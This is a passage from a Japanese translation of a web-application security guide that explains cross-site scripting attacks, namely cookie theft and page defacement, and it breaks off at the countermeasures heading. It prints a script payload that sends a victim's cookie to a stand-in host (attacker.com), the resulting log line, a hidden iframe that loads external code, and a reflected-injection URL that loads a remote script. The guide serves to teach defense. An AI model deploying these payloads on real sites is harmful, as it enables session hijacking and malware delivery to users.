##### Cookie窃盗

先ほどの例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す手法をご紹介します (攻撃者はこれを利用してユーザーのセッションをハイジャックします)。JavaScriptでは、`document.cookie`プロパティを利用してドキュメントのcookieを読み書きできます。JavaScriptでは同一生成元ポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。`document.cookie`プロパティには、生成元webサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと(XSSによってこれが生じることがあります)、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入すると、そのページに含まれている自身のcookieが表示されるのがわかります。

```
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では、[http://www.attacker.com/](http://www.attacker.com/)というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません(訳注: 現在は売り物件のWebページがあるようです)。ただし攻撃者はWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照することができます。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.comサイト上のログファイルには以下のように記録されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

この攻撃をある程度緩和するためには[httpOnly](http://dev.rubyonrails.org/ticket/8895)フラグをcookieに追加します。これにより、`document.cookie`をJavaScriptで読み出せなくなります。HTTP only cookieはIE v6.SP1、Firefox v2.0.0.5、Opera 9.5以降で利用できます。Safariはまだこのフラグを検討中であり、このオプションは無視されます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使うとcookieが表示可能になる](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える (汚損) ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、iframeを悪用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)を使ってイタリアにあるWebサイトへの攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して邪悪なソフトウェアをインストールしようとします。そして攻撃の成功率は50%を誇っています。

さらに特殊な攻撃としては、Webサイト全体を上に重ねて表示したりログインフォームを表示したりするという手口があります。これらは元のサイトと一見そっくりですが、入力されたユーザー名とパスワードを密かに攻撃者のサイトに送信します。あるいは、CSSやJavaScriptを駆使してWebアプリケーション上の本物のリンクを隠して別のリンクを表示し、ユーザーを偽のサイトにリダイレクトするという手法もあります。

リフレクションインジェクション (Reflected injection) 攻撃も同様の攻撃です。標的ユーザーに後で表示されるペイロードを実際には保存せず、代わりにURLに長大な文字列として仕込んでおく手法です。特に検索フォームで検索文字列のエスケープに失敗します。以下のリンク先には、「ジョージ・ブッシュが9歳の男の子を議長に任命」と書かれたページがありました。

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### 対応策
